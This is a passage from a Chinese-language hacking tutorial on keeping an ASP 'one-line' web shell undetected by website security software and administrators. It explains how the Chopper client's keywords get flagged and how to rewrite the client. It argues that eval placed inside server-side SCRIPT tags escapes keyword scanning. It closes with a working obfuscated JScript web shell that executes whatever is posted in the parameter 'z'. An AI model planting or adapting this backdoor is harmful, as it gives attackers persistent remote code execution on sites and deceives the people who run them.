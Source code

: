 ![2013122818065476520_jpg.jpg](img/img4_u47_jpg.jpg)

实测至此与 Shell 的连接已经不会被断了，而且以上三个一句话都支持我们亲爱的“菜刀”连接。但实际上你用菜刀是连不上的，因为安全类软件还会检测 Get、Post、Cookies……的内容，菜刀 Post 数据包中含有太多的关键字(execute、response.write,base64_decode…… 不信你截包看一看)。这样有什么方法来突破呢？哈哈，两种方法：

一、反汇编改造“菜刀”(依然会有特征)       详见：[`zone.wooyun.org/content/8169`](http://zone.wooyun.org/content/8169)
二、自己写个“菜刀”(可完全没有任何特征)   详见：[`zone.wooyun.org/content/8137`](http://zone.wooyun.org/content/8137)

```
代码自定义编码后发送  
菜刀(客户端)《================================》一句话(服务端)  
                   解码后执行返回(编码)数据 
```

现在，我们已经可以使用“菜刀”管理有网站安全类软件的站点了，可美中不足的是依然会被提示 Execute/eval/base64_decode 加密。因为正常情况下很少有用到 eval/execute/executeglobal……函数(有经验的管理直接搜索 eval、execute、assert 等，见到包含在<%%>、?>?>就删……)，那该怎么办才能忽悠住管理员让他保留我们的 Shell 呢？当然有答案，你可以构造一个注入或是文件上传，用到的时候再搞上自己的 Shell，但我的目标是让我的一句话极具迷惑性(狗、神、盾、卫士哥不杀；管理员看不出这是一句话)。

在这种情况下，可能要面临一个艰难的决定：放弃我们的“菜刀”，客户端全部自写。把 eval 等关键代码全部写到标签内，因为安全类软件对标签内代码的检测较宽松，对`<%%>`、`<?php ?>`等脚本标记内代码的正则检测较为严格。像`<SCRIPT language=VBScript runat="server">`代码`</SCRIPT>`这样的之前可以用来完美“免杀”现在已经不行了，但我们还有 JScript 呀！所以我采用了冰狐：`<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>eval(Request.form('#')+'')</SCRIPT>`，重点对其进行改造！谁会注意 LANGUAGE=JAVASCRIPT 呢？

经过一番改造，最终代码如下：

```
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT> var P = Request.form('z'); var Wab = {'E' : eval}; Wab.E(P+''); </SCRIPT> 
```

看一下效果吧……
